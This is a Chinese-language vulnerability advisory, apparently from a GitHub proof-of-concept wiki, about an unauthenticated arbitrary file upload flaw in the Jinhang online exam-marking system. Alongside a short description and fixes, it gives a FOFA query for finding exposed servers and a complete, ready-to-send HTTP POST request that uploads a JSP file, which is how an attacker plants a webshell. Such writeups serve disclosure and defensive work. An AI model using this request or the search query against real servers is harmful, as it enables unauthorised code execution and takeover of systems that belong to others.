


# 金航网上阅卷系统fileUpload任意文件上传漏洞

# 漏洞描述

金航网上阅卷系统fileUpload 接口存在文件上传漏洞，未经身份验证远程攻击者可利用该漏洞代码执行，写入WebShell,进一步控制服务器权限。

# 影响版本

金航网上阅卷系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="js/insteadSelect/jquery.insteadSelect.css"

POC/EXP：

POST /fileUpload HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 127.0.0.1
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 351
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="upload"; filename="poc.jsp"
Content-Type: application/pdf

<%out.println("1234");%>
--00content0boundary00
Content-Disposition: form-data; name="uploadContentType"

pdf
--00content0boundary00
Content-Disposition: form-data; name="uploadFileName"

1.jsp
--00content0boundary00--

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
